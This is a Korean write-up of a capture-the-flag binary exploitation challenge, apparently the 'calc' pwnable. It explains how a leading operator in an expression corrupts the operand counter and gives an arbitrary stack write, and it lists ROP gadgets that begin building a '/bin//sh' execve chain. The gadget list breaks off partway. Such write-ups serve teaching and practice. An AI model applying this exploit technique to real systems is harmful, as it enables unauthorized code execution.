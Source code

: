 ```c
      v1[*v1 - 1] /= v1[*v1];
    }
  }
  else if ( expr == '*' )
  {
    v1[*v1 - 1] *= v1[*v1];
  }
  result = v1;
  --*v1;
  return result;
}
```

`eval()` 함수를 보면, `v1[*v1 - 1] += v1[*v1]` 을 이용하여 인자들끼리 연산을 진행합니다.
`*v1` 값이 인자의 개수이기 때문에, 정상적으로 연산 시 해당 값은 `2`이상을 갖게 됩니다.
하지만, 만약 `*v1`의 값이 `1`이라면 `*v1`의 값(=인자의 개수라쓰고 인덱스라 읽는다..)을 연산과정에서 덮어쓸 수 있습니다.

`parse_expr()` 함수에서 아래의 부분이 `*v1`의 값을 인덱스로 사용하여 값을 쓰기 때문에, 해당 취약점을 이용하여 사실상 스택 주소 영역 내에서는 원하는 곳에 값을 쓸 수 있게 됩니다.

```c
operand_num = (*v1)++
v1[operand_num + 1] = integer
```

본 문제에서는 연산자를 중복으로 오게 하는 것 등의 다양한 예외처리가 존재하지만, 첫 문자로 숫자가 아닌 연산자로 오는 것에 대한 프로텍터는 마련되어있지 않습니다. 따라서 `+333+5` 의 경우, `v1[334]` 위치에 `5` 값을 저장하게 할 수 있습니다.

해당 문제는 **static linking**이 되어있어서 **libc leak**도 할 수 없고(`calc()`의 `printf` 구문을 이용하면 메모리 **leak**은 가능합니다.), 그렇다고 `function` 중 바로 쉘을 딴다거나 플래그를 읽어주는 친절한 함수들도 존재하지 않습니다. 물론 쉘코드를 올린 뒤 실행할 수 있는 메모리 영역도 존재하지 않습니다. 

할 수 있는 건 스택 쓰기와 `eip` 컨트롤뿐인데 실행권한은 `text 영역`에만 있으니 그냥 `gadget`들을 주섬주섬 모아서 `rop chain`을 만들었습니다...

아직 `gadget` 사용하는게 서툴러서 굉장히 많이 더럽기는 한데 다행히 잘 돌아가긴 합니다...ㅎ

사용한 `gadget`들
```python
# ecx 0, ebx bss
0x08049f13 : xor ecx, ecx ; pop ebx ; mov eax, ecx ; pop esi ; pop edi ; pop ebp ; ret
bss : 0x80eb100
1
1
1

0x080701aa : pop edx ; ret
0x6e69622f "/bin"

# "/bin" 저장
0x080548e3 : mov dword ptr [ebx], edx ; add esp, 0x18 ; pop ebx ; ret
1
1
1
1
1
1
bss+4 : 0x80eb104

0x080701aa : pop edx ; ret
0x68732f2f "//sh"

# "//sh" 저장
0x080548e3 : mov dword ptr [ebx], edx ; add esp, 0x18 ; pop ebx ; ret
1
1
1
1
```
